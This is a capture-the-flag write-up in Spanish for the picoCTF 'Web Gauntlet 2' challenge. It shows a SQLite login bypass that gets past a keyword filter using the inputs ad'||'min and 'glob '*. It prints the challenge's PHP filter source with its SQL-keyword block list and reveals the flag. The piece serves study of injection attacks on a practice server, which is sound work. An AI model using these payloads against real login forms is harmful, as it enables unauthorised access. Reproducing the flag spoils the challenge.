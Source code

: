 # Web Gaunlet 2
![Descripcion del CTF](img/description.png)

## Descripción
This website looks familiar... Log in as admin Site: [http://mercury.picoctf.net:35178/](http://mercury.picoctf.net:35178/) Filter: [http://mercury.picoctf.net:35178/filter.php](http://mercury.picoctf.net:35178/filter.php)

## Resolucion
Nos dan dos enlaces, el primero a un formulario de login:

![Web](img/web1.png)

Y otro que nos lleva a otra página llamada 'filter.php' con una lista de caracteres:

![Web](img/web2.png)

Si intentamos iniciar sesión como 'admin' y contraseña 'root' nos encontramos con el siguiente error:

![Web](img/web3.png)

Esto quiere decir que hemos utilizado una palabra que ha sido filtrada, en este caso 'admin'.

Si probamos con un usuario y contraseña que no se filtre, como por ejemplo 'ad' y 'asd' se nos mostrará la consulta SQLite que está realizando php:

![Web](img/web4.png)

```
SELECT username, password FROM users WHERE username='ad' AND password='asd' 
```

Como estamos en SQLite, tenemos que buscar alguna forma de proporcionar la palabra admin de forma que en php no se reconozca, pero en SQLite sí.

En este caso podemos usar '||', que nos sirve para concatenar (juntar) dos cadenas de caracteres y obtener admin en el usuario.

Para obtener la contraseña, necesitaremos modificar la query para que nos de acceso si la información que proporcionamos coincide con cualquier contraseña almacenada en la base de datos.

Para ello podemos usar: ' glob '*

'glob' busca en la tabla la expresión regular proporcionada y '*' hace que cualquier cadena de caracteres coincida con ella.

Entonces usaremos como usuario: ad'||'min
Y como contraseña: 'glob '*

Creando así la query:

```
SELECT username, password FROM users WHERE username='ad'||'min' AND password='' glob '*' 
```

![Web](img/web5.png)

Acudiendo a [http://mercury.picoctf.net:35178/filter.php](http://mercury.picoctf.net:35178/filter.php), encontraremos el siguiente código php:

```
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
?>
```

Obteniendo así la flag: 'picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}'